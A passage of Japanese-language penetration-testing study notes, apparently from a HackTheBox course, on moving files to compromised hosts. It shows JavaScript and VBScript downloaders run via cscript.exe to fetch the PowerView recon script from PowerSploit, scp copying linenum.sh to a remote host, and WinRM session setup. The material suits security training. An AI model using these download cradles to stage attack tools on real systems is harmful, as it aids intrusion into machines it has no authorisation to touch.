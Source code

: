 ```javascript
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
###### JavaScriptとcscript.exeを使用してファイルをダウンロードする
- 上の`wget.js`を保存する
```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
##### VBスクリプト
- Windows コマンド プロンプトまたは PowerShell ターミナルから次のコマンドを使用して、VB Scriptを実行し、ファイルをダウンロードできる
- `wget.vbs`というファイルを作成し、次のコンテンツを保存する
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
###### VBScriptとcscript.exeを使用してファイルをダウンロードする
```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## SCPを使う
リモートホストでsshユーザー資格情報を取得した場合、`scp`を使用することでファイルのやり取りできる
SSHのサービスが動いてるなら、SCPも使える
```shell-session
scp linenum.sh user@remotehost:/tmp/linenum.sh
```


## そのほかのファイル転送方法
- netcat
- nc
### WinRMでのファイル転送
```powershell-session
 Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```powershell-session
$Session = New-PSSession -ComputerName DATABASE01
```
